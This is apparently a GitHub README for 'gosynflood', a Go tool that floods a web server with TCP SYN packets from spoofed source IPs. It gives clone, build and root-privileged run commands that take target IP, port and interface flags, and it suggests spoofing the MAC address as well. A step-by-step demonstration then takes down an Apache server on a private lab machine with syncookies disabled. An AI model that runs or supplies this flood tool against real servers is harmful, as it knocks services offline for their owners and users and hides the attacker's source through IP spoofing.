 
### gosynflood - Repeatedly Send Crafted TCP SYN Packets with Raw Sockets

###### intended for Ubuntu and other Debian distributions

###### USAGE:
<pre>
  <code>
# Clone project:
git clone https://github.com/rootVIII/gosynflood.git

# Build and run:
cd &lt;project root&gt;
go build -o bin/gosynflood

# raw sockets require root privileges when executing:
sudo ./bin/gosynflood  -t &lt;target IPV4 address&gt; -p &lt;port number&gt; -i &lt;network interface&gt;

# Example:
sudo ./bin/gosynflood  -t 192.168.1.120 -p 80 -i wlp3s0
  </code>
</pre>

###### CLI OPTIONS:
<pre>
  <code>
-t private or public IP address of target webserver
-p target webserver's port number (defaults to port 80 if not provided)
-i your network interface (running without -i will fail,
     but it will suggest all found interfaces, ie: lo, wlpxxx, eth0 etc.)

Enter control-c to stop the flood attack.
  </code>
</pre>

Each packet's IP address is spoofed. <b>MAC addresses are not spoofed</b>.
It is up to you to spoof your MAC Address beforehand if desired.

This attack may only work on web servers susceptible to numerous half-open connections (SYN_RECV).

To demonstrate this, a small Ubuntu Mate running Apache2 will act as the target.
It's a physical machine on a private network.

<hr>
1. The tcp_syncookies flag was set to 0 (to make the target vulnerable for demonstration purposes) and the webserver was started on the target:
<img src="https://user-images.githubusercontent.com/30498791/166178559-b8ad5922-b12c-4ce0-883c-7205a22721b8.png">


2. The attacker machine (a separate physical machine also running Ubuntu) executes the gosynflood exe with root privileges:
<img src="https://user-images.githubusercontent.com/30498791/166178555-53635637-9b62-4afb-af36-f36f0354902d.png">


3. The initial SYNs are visible in Wireshark on the target, purposefully never completing the thee 3-way handshake:
<img src="https://user-images.githubusercontent.com/30498791/166178558-fffa57f5-3083-4af2-9a7e-63225cd23d7c.png">
<img src="https://user-images.githubusercontent.com/30498791/166178557-d394bd6f-9a16-4711-bbf6-8c46c5847aa5.png">


4. During the attack the webserver should be unreachable at it's URL if it is susceptible. The half-open connections are visible via the command <code>netstat -na --tcp</code>
<img src="https://user-images.githubusercontent.com/30498791/166178556-ea9fa18e-4f90-40c3-b2dc-8bc748cd7632.png">




This was developed on Ubuntu 18.04 LTS.
<hr>
<b>Author: rootVIII  2020</b>
<br><br>